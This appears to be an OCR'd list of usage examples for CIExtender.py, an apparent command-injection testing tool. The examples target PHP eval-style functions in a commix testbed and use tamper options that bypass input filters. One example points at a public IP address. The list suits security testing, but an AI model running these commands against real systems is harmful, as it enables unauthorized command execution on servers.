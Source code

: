 ```
python3 CIExtender.py "http://local.con/commix-testbed/scenarios/regular/GET/preg_replace.php?replace=/Hello/e&with=*" -v1 --flush-session

Assert() regular example
python3 CIExtender.py -u http://157.230.2.20/assert.php?user=* -v1 --flush-session

Str_Replace() regular example
python3 CIExtender.py -u http://local.con/commix-testbed/scenarios/regular/GET/str_replace.php?user=* -v1 --flush-session --tamper=php_send2header

Create_Function() regular example
python3 CIExtender.py -u http://local.con/commix-testbed/scenarios/regular/GET/create_function.php?user=* -v1 --flush-session


-------POST---------

Classic (SOAP/XML) regular example
python3 CIExtender.py -r /tmp/classic_xml.sqli -v1 --flush-session

Blind (JSON) regular example
python3 CIExtender.py -r /tmp/blind_json.sqli -v1 --flush-session --time-sec 40

Regex for domain name validation
python3 CIExtender.py -r /tmp/lax_domain_name.sqli -v1 --flush-session

Nested quotes
python3 CIExtender.py -r /tmp/nested_quotes.sqli -v1 --flush-session

Regex filter for spaces
python3 CIExtender.py -r /tmp/no_space.sqli -v1 --flush-session --tamper=bash_no_space

Regex filter for white chars
python3 CIExtender.py -r /tmp/no_white_chars.sqli -v1 --flush-session --tamper=bash_no_space

Alphanum for input start
python3 CIExtender.py -r /tmp/simple_start_alphanum.sqli -v1 --flush-session

Alphanum for input end
python3 CIExtender.py -r /tmp/simple_stop_alphanum.sqli -v1 --flush-session

Alphanum for input end (filter for white chars)
python3 CIExtender.py -r /tmp/no_white_chars_stop_alnum.sqli -v1 --flush-session --tamper=bash_no_space

Regex filter for OS commands (Windows / *nix)
Note: this tamper has not been developed for this kind of bypasses. If for some reason the resulted base64 string contains any of the banned words, it will fail.
python3 CIExtender.py -r /tmp/multiple_os_commands_blacklisting.sqli -v1 --flush-session --tamper=bash_no_space

Eval user-agent-based example
python3 CIExtender.py -r /tmp/ua\(eval\).sqli -v1 --flush-session
```

